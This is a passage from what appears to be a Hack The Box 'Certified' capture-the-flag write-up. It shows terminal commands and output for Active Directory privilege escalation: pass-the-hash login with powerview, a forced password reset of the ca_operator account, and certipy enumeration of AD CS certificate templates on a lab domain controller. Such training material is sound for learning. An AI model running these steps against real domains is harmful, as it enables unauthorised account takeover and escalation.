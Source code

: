 ## Privilege Escalation

Changed the password for **ca_operator**
```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ powerview certified/management_svc@10.129.231.186 -H a091c1832bcdd4677c28b5a6a1295584
Logging directory is set to /home/frodo/.powerview/logs/10.129.231.186
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\management_svc]
PV > Set-DomainUserPassword -h
usage: powerview Set-DomainUserPassword [-h] [-Identity IDENTITY] [-AccountPassword ACCOUNTPASSWORD] [-OldPassword OLDPASSWORD] [-Server SERVER] [-OutFile OUTFILE]

options:
  -h, --help            show this help message and exit
  -Identity IDENTITY
  -AccountPassword ACCOUNTPASSWORD
  -OldPassword OLDPASSWORD
  -Server SERVER
  -OutFile OUTFILE
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\management_svc]
PV > Set-DomainUserPassword -Identity ca_operator -AccountPassword 'Welcome@123456' 
[2024-11-13 08:10:15] [Set-DomainUserPassword] Principal CN=operator ca,CN=Users,DC=certified,DC=htb found in domain
[2024-11-13 08:10:15] [Set-DomainUserPassword] Password has been successfully changed for user ca_operator
[2024-11-13 08:10:15] Password changed for ca_operator
```

FInding AD CS Vulnerabilities

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad find -u ca_operator -p 'Welcome@123456' -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20241113081301_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20241113081301_Certipy.txt'
[*] Saved JSON output to '20241113081301_Certipy.json'
```


